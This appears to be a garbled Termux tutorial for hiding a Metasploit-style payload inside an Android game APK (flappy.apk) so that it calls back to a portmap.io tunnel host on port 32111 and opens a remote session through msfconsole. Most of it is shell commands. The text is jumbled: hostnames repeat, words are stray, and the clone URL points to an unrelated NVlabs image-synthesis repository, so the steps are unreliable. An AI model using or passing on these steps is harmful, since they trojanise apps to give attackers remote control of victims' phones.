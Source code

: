 apt update

termux-setup storage

apt install git

git clone spade-installation
git clone https://github.com/NVlabs/SPADE.git

ls

cd spade

chmod +x install.sh

bash install.sh
lalratan519-32111.portmap.io
15 to 20 minutes wait to installation process

Now we binding processlalratan519-32111.portmap.io
lalratan519-32111.portmap.io
bash Spade /sdcard/R/flappy.apk

Payload 3

lhost lalratan519-32111.portmap.io

lport 32111

Now we have N click 
Process time 15 to 20 minutes

ls

cd Gray

ls

mv file name.apk /sdcard/R/

than now be starting
./msfconsole









